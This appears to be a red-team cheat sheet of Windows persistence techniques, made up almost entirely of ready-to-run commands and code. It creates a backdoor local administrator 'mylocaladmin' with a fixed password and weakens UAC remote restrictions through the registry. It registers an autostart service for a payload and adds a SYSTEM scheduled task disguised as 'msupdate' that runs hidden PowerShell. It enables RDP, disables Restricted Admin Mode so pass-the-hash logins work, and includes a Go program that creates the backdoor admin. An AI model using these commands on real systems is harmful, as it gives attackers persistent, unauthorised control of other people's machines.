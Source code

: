 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

_Make a service, with autostart. Before need prepare special payload, that is a service binary._&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

_Then start service_

```
Start-Service -Name "monitexp"
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to star&#x74;_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```

### Go based binary to create local admin

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	addUserCmd := "net user mylocaladmin p@ssw0rd! /add /expires:never"
	addToAdminGroupCmd := "net localgroup administrators mylocaladmin /add"

	err := executeCommand(addUserCmd)
	if err != nil {
		log.Fatal(err)
	}

	err = executeCommand(addToAdminGroupCmd)
	if err != nil {
		log.Fatal(err)
	}

}

func executeCommand(command string) error {
	cmd := exec.Command("cmd", "/C", command)

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("err: %s\noutput : %s", err, output)
	}
	return nil
}

```
